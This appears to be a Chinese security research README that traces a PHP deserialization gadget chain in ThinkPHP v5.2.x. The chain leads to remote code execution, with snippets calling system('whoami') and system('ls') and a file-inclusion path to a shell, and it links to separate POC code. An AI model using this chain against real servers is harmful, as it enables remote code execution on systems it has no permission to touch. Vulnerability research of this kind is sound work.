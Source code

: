 ﻿## 测试版本
php v7.2.10
thinkphp v5.2.x
## 思路
前面的利用链借鉴的是v5.1.37中的思路，可以参考文章[thinkphpv5.1.37反序列化利用链挖掘](https://github.com/Dido1960/thinkphp/tree/master/v5.1.37)
```
// 路径
\vendor\topthink\framework\src\think\process\pipes\Windows.php

// 析构方法入手
__destruct() --> removeFiles() --> files_exists($filename)
 
// 可控参数
new windows()->filename
 
 ```


file_exists()函数将参数当作字符串处理，可以触发类的__toString()魔术方法

```
//路径
\vendor\topthink\framework\src\think\model\concern\Conversion.php

// 寻找__toString()的调用链
__toString() --> toJson()--> toArray()
 
//寻找  $可控变量->方法(参数可控) 的点（失败）
$relation->visible($name);
 
// 注意，寻找存在__call()方法且未实现visible()函数的类无果，另辟蹊径，到这之前的利用链与v5.1.37相同
 
```

利用点：think/model/concern/Attribute.php中getValue可函数动态调用函数`$closure($value, $this->data)`，`$closure,$value`参数均可控
```
//路径
\vendor\topthink\framework\src\think\model\concern\Attribute.php

接着上面的链
toArray() --> getAttr($key) --> getValue($name, $value, $relation) --> $closure($value, $this->data)

$closure = $this->withAttr[$fieldName] 
$value = $this->data[$fieldName]

$fieldName = getRealFieldName($name)
$name为$this->data中的键，所以要保证$this->withAttr的键与$this->data中的键一致

 
//可控参数
$this->withAttr
$this->data
 ```

这里`$closure($value, $this->data)`有两个方式进行利用
* 可以利用序列化的匿名函数的姿势进行利用
 ```
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
 
//注意，这里需要引入\Opis\Closure这个第三方库，具体查看官方文档
https://docs.opis.io/closure/3.x/serialize.html
```

* 动态调用函数执行系统命令

```
//动态执行函数system回显
$closure = 'system';
$value = 'whoami';
$data = array("huha"=>"whoami");
$closure($value,$data);
```

最终的反序列利用链
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092801111542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)

在默认模块中构造利用点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190925143232558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
## POC
#### 利用匿名函数
构造POC的时候注意在web根目录下引入第三方\Opis\Closure函数库vendor，才能序列化闭包对象，否则会报错

```
//导入
require __DIR__ . '/vendor/autoload.php';
```
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc

#### 利用动态函数执行
这种方法没有引入外部类的限制，比较实用

https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc3

## 思路二
前面说__call()方法在\think\Request类中找不到了，可以寻找代替Request的其他类，找到了\think\Db.php中的__call方法
 

```
public function __call($method, $args)
{
    $class = $this->config['query'];
 
    $query = new $class($this->connection);
 
    return call_user_func_array([$query, $method], $args);
}
```

 

 
因为在构造类的时候变量均可控，所以在这里可以调用类的方法，think\Url中存在文件包含
 
 

```
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;
 
    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

如果服务器可上传文件，在知道路径的情况下就可以getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190929013447152.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
本地测试，在D盘目录添加route.php文件

```
<?php
system('ls');
?>
```
## POC2
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc2

## 参考文章
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)

